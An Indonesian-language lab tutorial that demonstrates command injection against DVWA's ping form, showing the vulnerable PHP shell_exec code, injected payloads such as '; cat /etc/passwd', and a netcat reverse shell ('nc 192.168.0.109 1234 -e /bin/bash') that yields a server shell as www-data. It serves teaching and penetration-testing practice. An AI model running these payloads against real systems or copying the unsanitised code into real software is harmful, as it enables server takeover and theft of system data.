




Sesuai dengan namanya, ***Command Injection*** adalah kerentanan pada aplikasi web yang memungkinkan seorang penyerang dapat meng-*execute* perintah-perintah sistem operasi. Misalnya, *commands* sistem operasi Linux ada **`pwd`**, **`ls`**, **`cat`**, dan lain sebagainya. *Command injection* dapat terjadi disebabkan oleh tidak kurangnya perhatian seorang developer web terhadap **validasi input**.[^1]

Untuk membuktikan, kita mula-mula akan melihat demonstrasinya command injection terlebih dahulu melalui DVWA yang sudah kita *install* dan *set up* di artikel sebelumnya. Setelah login ke DVWA dengan credensial default, <mark> **admin:password**</mark>, pergi ke menu **Command Injection**. Di sana, ada *form* **`ping`** dan kita bisa meng-*input*-kan *ip address* untuk di-**`ping`**. Kita bisa coba dengan memasukkan *ip address* komputer kita dan nanti *output* **`ping`**-nya akan tampil di bawah *form* tersebut.

<iframe
  src="https://player.cloudinary.com/embed/?cloud_name=dpvtbnqf7&public_id=commandinjection1_pzgzqw"
  width="640"
  height="360" 
  style="height: auto; width: 100%; aspect-ratio: 640 / 360;"
  allow="autoplay; fullscreen; encrypted-media; picture-in-picture"
  allowfullscreen
  frameborder="0"
></iframe>

Sekarang, kita akan lihat *source code* yang ada di belakangnya, berikut:

> **Notes:** *Source code*-nya bisa dilihat di bagian bawah halaman website pada bagian **"View Source"**

```php title="php"
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

Perhatikan bahwa pada variable **`$cmd`** yang mengambil input dari *user* untuk kemudian dieksekusi, yaitu $cmd = **`shell_exec( 'ping  ' . $target );`** jika DVWA di-host di server Windows dan **`$cmd = shell_exec( 'ping  -c 4 ' . $target );`** jika DVWA di-*deploy* di Linux, tidak ada validasi / sanitasi *input*-nya. Itu artinya, kita dapat melakukan *command injection* dengan mem-*bypass* perintah **`ping`** di server dengan karakter yang umum digunakan untuk melakukan serangan *command injection*, yaitu *semicolon* **(:)** sehingga *attacker* dapat memberikan perintah lain ke server.

<mark> Karakter *semicolon* **(;)** adalah sebuah *standard item* dalam *environment* UNIX/Linux untuk memisahkan *commands*</mark>.[^2]

Misalnya, saya ingin melihat isi file **`/etc/passwd`** di server, saya dapat menambahkan karakter semicolon **(;)** yang diikuti dengan perintah **`cat /etc/passwd`** setelah menuliskan *ip address* pada *form* **`ping`** tersebut:

:::info

File **`/etc/passwd`** dalam sistem operasi linux menyimpan semua data user yang terdaftar di sistem operasi tersebut, baik *system/service user* seperti **www-data**, **mysql**, **sshd**, dan lainnya maupun *login user* seperti saya sendiri sebagai pengguna komputer.

Sebagai ilustrasi, dalam mesin saya, berikut adalah isi file **`/etc/passwd`**-nya:



:::



Kita bisa lihat *output* yang ditampilkan di website, mula-mula perintah **`ping -c 4 192.168.0.109`** dieksekusi (menge-**`ping`** / mengirimkan paket **ICMP** - *Internet Control Message Protocol* ke *ip address* 192.168.0.109 ) terlebih dahulu ke server, kemudian perintah **`cat /etc/passwd`** dieksekusi setelahnya.

Atau jika kita ingin perintahnya lebih sederhana, kita bisa hanya mengetikkan perintah **`; cat /etc/passwd`** tanpa harus mengetikkan ip address-nya terlebih dahulu karena tadi, fungsi karakter *semicolon* adalah memisahkan dua perintah atau lebih, jadi perintah pertama akan dieksekusi (jika ada) dan kemudian perintah kedua akan dieskekusi.



Sekarang kita paham bahwa dalam konteks ini, kerentanan *command injection* di website mengakibatkan *attacker* dapat mengeksekusi perintah sistem operasi apapun dari website. Itu juga berarti bahwa *attacker* dapat melakukan [***reverse shell***](https://integrasolusi.com/blog/pentesting-perbandingan-bind-shell-dan-reverse-shell/) untuk mendapatkan *shell* server. Ketika *attacker* sudah berhasil mendapatkan *shell*, itu artinya server sudah berhasil "dibajak". 

Untuk demonstrasi *reverse shell*, saya akan menggunakan [**`netcat`**](https://www.geeksforgeeks.org/introduction-to-netcat/):

Pertama, kita perlu mengecek / memastikan dulu bahwa **`netcat`** / **`nc`** ter-*install* di dalam di server dengan mengetikkan perintah berikut di *form* **`ping`**:

```shell
; whereis nc
```



**`Netcat`** ada di dalam server. Kita bisa melakukan *reverse shell* sederhana dengan **`netcat`**. 

Mula-mula, kita jalankan **`netcat`** di komputer kita (sebagai *attacker*) terlebih dahulu untuk melakukan *listening* paket:

```shell
nc -lvnp 1234
```

> **Keterangan:**  
> - <mark> -l</mark> : melakukan *listening*.
> - <mark> -v</mark> : melakukan *verbosity*.
> - <mark> -n</mark> : *ip address* tanpa DNS.
> - <mark> -p</mark> : port yang akan melakukan *listening*.
> - <mark> 1234</mark> : nomor port-nya.  
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

Perintah di server (di *form* **`ping`**):

```shell
nc 192.168.0.109 1234 -e /bin/bash
```

> **Keterangan:**  
> - <mark> 192.168.0.109</mark> : *ip address attacker*.
> - <mark> 1234</mark> : port *attacker* yang sedang *listening*.
> - <mark> -e</mark> : *binary* / perintah yang mau dieksekusi.
> - <mark> /bin/bash</mark> : memberi akses BASH shell ke *attacker*. 
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

<iframe
  src="https://player.cloudinary.com/embed/?cloud_name=dpvtbnqf7&public_id=commandinjection2_oxdvlq"
  width="640"
  height="360" 
  style="height: auto; width: 100%; aspect-ratio: 640 / 360;"
  allow="autoplay; fullscreen; encrypted-media; picture-in-picture"
  allowfullscreen
  frameborder="0"
></iframe>

Dan kita berhasil mendapatkan *shell* server-nya sebagai user **www-data**.


[^1]: https://owasp.org/www-community/attacks/Command_Injection
[^2]: https://www.ibm.com/support/pages/meaning-semi-colon-colon-unix-script-sterling-gentranserver-unix
